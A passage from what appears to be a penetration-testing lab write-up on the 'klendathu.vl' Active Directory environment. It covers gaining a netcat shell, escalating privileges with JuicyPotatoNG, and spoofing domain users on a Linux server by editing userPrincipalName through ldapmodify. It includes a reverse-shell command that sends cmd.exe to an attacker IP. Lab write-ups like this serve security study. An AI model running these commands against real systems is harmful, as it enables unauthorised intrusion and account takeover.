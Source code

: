 <img src="https://i.imgur.com/Fvj5Cjz.png"/>

Now transferring netcat to get a shell

<img src="https://i.imgur.com/gokHSa6.png"/>
## Escalating to Local Admin

We can perform local privilege escalating by abusing `SeImpersonte` privilege through `JuicyPotato-NG`

<img src="https://i.imgur.com/8C8h86J.png"/>

```bash
JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:/Users/rasczak/nc.exe 10.8.0.136 2222 -e cmd.exe"
```

<img src="https://i.imgur.com/mR24sN1.png"/>

From here onwards there wasn't anything we could do as dumping lsass didn't returned any domain user's hash other than the local admin and machine account

<img src="https://i.imgur.com/V83FnRV.png"/>
## Spoofing domain users with GSSAPI

Going back to bloodhound, checking outbound control on RASCZAK , we have `GenericWrite`  and `ForeChangePassword` on two domain users, `rico` and `ibanez` , with this ACL we can change the password using `rpcclient` or `net rpc`

<img src="https://i.imgur.com/lsgnMGg.png"/>

<img src="https://i.imgur.com/KXZFTTZ.png"/>
These also doesn't have any ACLs on domain objects, the machine we have is linux (SRV2), using rico to logon to SRV2 didn't worked

<img src="https://i.imgur.com/o251y1l.png"/>

There's a research done by Ceri Coburn from Pen Test Partners, where linux servers joined to Active Directory have misconfiguration in the authentication mechanism where name-type, enterprise is used (NT_ENTERPRISE), if we have GenericWrite on a domain user, we can edit the `userPrincipalName` attribute, this attribute is utilized by `NT_ENTERPRISE` through which we can spoof domain users (this is explained quite well in the blog post). To abuse this we need to first identify the user that we'll spoof, there's a group named `LINUX_ADMINS` with two members

<img src="https://i.imgur.com/Rn1x7Q8.png"/>

Then adding `userPrincpalName` to be  any of the two users, for adding this attribute we can use `ldapmodify` for that we need to create a `ldif` file

```bash
dn: cn=rico,cn=users,dc=klendathu,dc=vl
changetype: modify
modify: userPrincipalName
userPrincipalName: flores
```
